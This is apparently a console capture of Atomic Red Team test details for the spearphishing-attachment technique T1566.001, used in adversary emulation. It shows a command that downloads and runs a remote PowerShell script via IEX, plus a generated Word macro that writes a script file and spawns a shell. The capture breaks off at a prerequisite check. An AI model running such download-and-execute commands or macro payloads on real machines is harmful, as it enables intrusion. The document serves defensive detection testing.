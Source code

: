 ```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T1566.001 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Download Macro-Enabled Phishing Attachment
Atomic Test Number: 1
Atomic Test GUID: 114ccff9-ae6d-4547-9ead-4cd69f687306
Description: This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating
an end user clicking a phishing link to download the file. The file "PhishingAttachment.xlsm" is downloaded to the %temp
% directory.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
```